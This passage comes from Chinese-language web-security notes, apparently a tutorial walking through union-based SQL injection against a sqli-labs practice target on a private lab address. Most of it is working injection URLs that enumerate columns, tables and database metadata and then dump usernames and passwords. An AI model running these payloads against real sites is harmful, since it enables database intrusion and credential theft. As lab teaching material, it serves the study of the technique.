     - 有报错回显
        - 枚举/猜解：列数 –> 数据库版本 –> 表名 –> 列名 –> 具体值
    - 无报错回显 –> SQL 盲注
        - 利用 SQL 代码延迟执行时间差
        - 利用 SQL 代码执行返回结果差异制造页面渲染结果差别

```php
# 1. 判断注入点是否存在

http://192.168.56.144:7080/Less-2/?id=2'

# 2. 枚举字段数

http://192.168.56.144:7080/Less-2/?id=2 order by 1
http://192.168.56.144:7080/Less-2/?id=2 order by 2
http://192.168.56.144:7080/Less-2/?id=2 order by 3
# 4 时报错，说明当前查询对应的结果集数量（如果是单表查询则说明当前表的列数）为 3
http://192.168.56.144:7080/Less-2/?id=2 order by 4

# 3. 检查是否支持 union 查询
# 第一次页面返回结果无变化
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 -- 
# 第二次页面返回结果原先 name 字段显示 2 password 字段显示 3
# 说明返回结果集合的第2和第3个字段值分别对应在这 2 个位置上回显输出
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 limit 1,1 -- 

# 4. 获取数据库版本信息、数据库连接权限和当前数据库实例名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(version(),0x3a,user(),0x3a,database()),3 limit 1,1 -- 

# 5. 获取表名
# mysql < 5 只能靠字典爆破方式获取表名和列名
# mysql >= 5 可以通过查询系统库 information_schema 获取
# 以下逐一枚举系统中所有表名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 1,1 -- 
...
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 4,1 -- 

# 6. 查询列名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users'  limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 2,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 3,1 -- 

# 7. 获取表内数据
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 2,1 -- 
```
SQL 注入的众多经验总结形成了诸如 `sqlmap` 这样的全自动化漏洞利用工具，通过研究 `sqlmap` 的源代码或通过自己搭建靶场环境抓包分析 `sqlmap` 产生的流量数据的方式可以很好的学习 SQL 注入的各种方法和技巧。但万变不离其宗：  
找到构成 SQL 语句的外部输入可控变量并篡改为可执行的 SQL 指令，这就是 SQL 注入成功的关键。  
由于 SQL 注入实际攻击的是数据库，所以在实际手工测试 SQL 注入时，手边准备好目标数据库的 SQL 指令手册并搭建相应版本的数据库并建立起一些数据表供测试 SQL 注入代码的有效性是一种常见的工作方式。
#### SQL 注入信息收集
SQL 包含的函数与全局变量
- 数据库版本: `version()`
- 数据库的名字: `database()`
- 数据库用户: `user()`